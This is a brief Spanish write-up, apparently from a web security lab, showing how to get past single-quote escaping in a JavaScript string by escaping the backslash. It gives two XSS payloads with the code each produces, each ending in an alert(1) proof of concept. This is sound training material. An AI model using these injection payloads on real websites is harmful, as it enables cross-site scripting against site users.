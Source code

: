 Nos dicen que las single quotes están solo escapadas , si escapamos la barra invertida podemos inyectar la comilla simple
Interceptamos las request y enviamos esto : 

`\'-alert(1)//` 
```javascript
	var searchTerms = '\\'-alert(1)//';
```

o

`\'+%2b+alert(1)//` 
```javascript
	var searchTerms = '\\' + alert(1)//';
```
